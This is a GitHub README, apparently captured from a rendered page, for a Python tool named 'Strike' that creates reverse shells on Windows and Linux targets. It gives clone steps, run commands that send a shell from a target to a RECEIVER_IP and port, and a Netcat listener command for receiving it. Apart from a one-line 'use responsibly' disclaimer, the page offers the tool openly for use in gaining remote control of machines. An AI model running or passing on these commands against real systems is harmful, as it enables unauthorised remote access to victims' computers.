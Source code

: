 # Reverse Shell Generator

A Python script for creating a reverse shell on target systems, supporting both Windows and Linux platforms. Use responsibly and with proper authorization.

## Getting Started

These instructions will help you get a copy of the project up and running on your local machine.

### Prerequisites

To run this script, you will need:

- Python 3.x
- `psutil` library
- A target machine to run the reverse shell on


### Installation

1. Clone the repository:

   ```bash
   git clone https://github.com/huho-0/Strike/
2. Change into the project directory:
   ```bash
   cd strike

## Usage

To create a reverse shell, you can use this script as follows:

1. For Windows:

   ```bash
   python reverse_shell.py -ip RECEIVER_IP -port PORT_NUMBER
2. For Linux:

   ```bash
   python reverse_shell.py -ip RECEIVER_IP -port PORT_NUMBER

# How to Run the Code

To run the code, follow the usage instructions provided in the "Usage" section above.

- Make sure you have the required dependencies installed.
- Replace RECEIVER_IP with the IP address of the machine you want to receive shell.
- Replace PORT_NUMBER with the port number to connect to on the machine you wan to receive shell.
- The script will create a reverse shell connection to the specified IP and port.

## IMPORTANT

You want to start listen to the specific port using 'Netcat' in  another device inorder to receive the reverse shell from the target
- listen through Netcat
  ```bash
  nc -nvlp port
